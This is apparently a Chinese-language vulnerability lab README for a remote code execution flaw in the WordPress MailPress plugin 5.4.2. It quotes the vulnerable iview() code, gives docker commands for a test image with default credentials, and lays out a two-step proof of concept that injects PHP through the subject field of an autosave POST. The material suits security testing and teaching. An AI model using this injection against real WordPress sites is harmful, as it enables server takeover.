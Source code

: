 ## WordPress Mailpress Plugin 远程代码执行漏洞

### 漏洞信息

 * [WordPress Mailpress Plugin 远程代码执行漏洞](http://0day5.com/archives/3960)

WordPress Mailpress Plugin  插件中, `mailpress\mp-includes\class\MP_Actions.class.php` 文件中 `iview` 函数中 `subject` 参数未经过滤，直接拼接do_eval函数执行代码，而do_eval函数也未经任何过滤，导致远程代码执行漏洞。

### 漏洞相关代码

```
public static function iview()
{
$mp_general = get_option(MailPress::option_name_general);

$id = $_GET[‘id’];
$main_id = (isset($_GET[‘main_id’])) ? $_GET[‘main_id’] : $id;

$mail = MP_Mail::get($id);

$theme = (isset($_GET[‘theme’]) && !empty($_GET[‘theme’])) ? $_GET[‘theme’] : (!empty($mail->theme) ? $mail->theme : false);
$mp_user_id = (isset($_GET[‘mp_user_id’]) && !empty($_GET[‘mp_user_id’])) ? $_GET[‘mp_user_id’] : false;

// from
$from = (!empty($mail->fromemail)) ? MP_Mail::display_toemail($mail->fromemail, $mail->fromname) : MP_Mail::display_toemail($mp_general[‘fromemail’], $mp_general[‘fromname’]);
// to
$to = MP_Mail::display_toemail($mail->toemail, $mail->toname, ”, $mp_user_id);
// subject
$x = new MP_Mail();
$subject = (in_array($mail->status, array(‘sent’, ‘archived’))) ? $mail->subject : $x->do_eval($mail->subject);
$subject = $x->viewsubject($subject, $id, $main_id, $mp_user_id);
// template
$template = (in_array($mail->status, array(‘sent’, ‘archived’))) ? false : apply_filters(‘MailPress_draft_template’, false, $main_id);

// content
$args = array();
$args[‘action’] = ‘viewadmin’;
foreach(array(‘id’, ‘main_id’, ‘theme’, ‘template’, ‘mp_user_id’) as $x) if ($$x) $args[$x] = $$x;

foreach(array(‘html’, ‘plaintext’) as $type)
{
$args[‘type’] = $type;
if (!empty($mail->{$type})) $$type = “<iframe id=’i{$type}’ style=’width:100%;border:0;height:550px’ src='” . esc_url(add_query_arg( $args, MP_Action_url )) . “‘></iframe>”;
}

// attachements
$attachements = ”;
$metas = MP_Mail_meta::has( $args[‘main_id’], ‘_MailPress_attached_file’);
if ($metas) foreach($metas as $meta) $attachements .= “<tr><td>&#160;” . MP_Mail::get_attachement_link($meta, $mail->status) . “</td></tr>”;
$view = true;
include(MP_ABSPATH . ‘mp-includes/html/mail.php’);
}
```

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用
1. 使用攻击代码触发漏洞
 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress-5.4.2/mp-includes/action.php
 ```
post data:
 ```
action=autosave&id=0&revision=-1&toemail=&toname=&fromemail=&fromname=&to_list=1&Theme=&subject=<?php phpinfo();?>&html=&plaintext=&mail_format=standard&autosave=1
 ```


2. 访问存在漏洞页面获取结果

 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress-5.4.2/mp-includes/action.php?action=iview&id=返回的文章id号

 ```

